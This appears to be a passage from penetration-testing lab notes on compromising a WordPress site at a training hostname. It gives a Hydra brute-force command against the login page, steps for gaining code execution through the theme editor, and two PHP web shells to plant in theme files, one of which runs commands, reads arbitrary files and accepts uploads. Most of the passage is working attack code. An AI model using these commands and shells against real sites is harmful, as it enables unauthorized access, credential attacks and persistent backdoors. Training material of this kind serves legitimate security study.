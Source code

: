 #### Hydra Integration
```bash
# Alternative brute force with Hydra
hydra -l john -P /usr/share/wordlists/rockyou.txt \
  blog.inlanefreight.local http-post-form \
  "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password for username"
```

---

## Code Execution Techniques

### Theme Editor Exploitation

#### Step 1: Administrative Access Required
```bash
# Prerequisites:
# - Valid admin/editor credentials
# - Theme editing permissions enabled
# - Access to wp-admin panel
```

#### Step 2: Theme Selection Strategy
```bash
# Target inactive themes to avoid site disruption
# Common inactive themes:
# - Twenty Nineteen
# - Twenty Twenty
# - Twenty Twenty-One

# Check current active theme first:
curl -s http://blog.inlanefreight.local | grep themes | head -1
```

#### Step 3: Web Shell Injection

**Simple Command Execution:**
```php
<?php
// Add to 404.php or footer.php
system($_GET['cmd']);
?>
```

**Advanced PHP Web Shell:**
```php
<?php
// Multi-functional web shell
if(isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}

if(isset($_GET['file'])) {
    $file = $_GET['file'];
    if(file_exists($file)) {
        echo "<pre>" . file_get_contents($file) . "</pre>";
    }
}

if(isset($_POST['upload'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "File uploaded successfully!";
}
?>
```